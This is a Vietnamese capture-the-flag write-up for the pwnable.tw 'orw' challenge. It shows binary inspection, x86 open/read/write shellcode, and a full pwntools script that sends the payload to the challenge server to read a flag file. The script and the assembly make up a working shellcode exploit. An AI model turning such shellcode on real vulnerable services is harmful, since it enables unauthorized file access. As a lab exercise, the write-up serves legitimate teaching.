




**1. Tìm lỗi**

Dùng lệnh 'file' để kiểm tra ta có:

```
orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped
```

Là file ELF 32bit -> Mở bằng IDA ta có source như sau:


Chương trình cho phép mình nhập vào 1 chuỗi và thực thi chuỗi mình nhập vào.



Quan sát ta thấy chương trình cho phép nhập vào 0xc8 và sau đó cộng esp với 0x10 -> Có lỗi bof

Dùng lệnh 'checksec' để kiểm tra ta có:

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

Ở đây thì stack đã Canary found và NX disabled nên có thể thực thi shellcode

**2. Ý tưởng**

Như đề bài đã gợi ý thì sẽ sử dụng hàm 'open' để mở '/home/orw/flag'. Dùng hàm 'read' để đọc nội dung file và dùng hàm 'write' để ghi file

**3. Khai thác**

Đầu tiên chúng ta cần 1 con trỏ để trỏ tới chuỗi '/home/orw/flag' để thực thi các hàm

Đổi từng ký tự trong chuỗi về mã ascii và biểu diễn dưới dạng số hexa



Tiếp theo sẽ viết mã asm để mở tệp trên

```
mov ecx, 0
mov edx, 0
mov ebx, esp
mov eax, 5
int 0x80
```

Tiếp theo là mã asm để đọc nội dung tệp

```
mov ecx, esp
mov edx, 0x100
mov ebx, eax
mov eax, 3
int 0x80
```

Tiếp theo là ghi nội dung của tệp vừa đọc được

```
mov eax, 4
mov ebx, 1
int 0x80
```

Sau khi tạo xong thì thử check xem lúc call thì có call shellcode mình đã viết chưa



Như vậy chương trình đã chạy đúng shell mình viết

Ta có script như sau:

```
from pwn import *

#r = process('./orw')
r = remote('chall.pwnable.tw', 10001)

payload = asm(
    '''
    push 26465
    push 1818636151
    push 1919889253
    push 1836017711

    mov ecx, 0
    mov edx, 0
    mov ebx, esp
    mov eax, 5
    int 0x80

    mov ecx, esp
    mov edx, 0x100
    mov ebx, eax
    mov eax, 3
    int 0x80

    mov eax, 4
    mov ebx, 1
    int 0x80
    ''', os='linux', arch='i386'
)

#input()
r.sendafter(b'shellcode:', payload)
r.interactive()
```

**4. Lấy flag**



`Flag: FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}`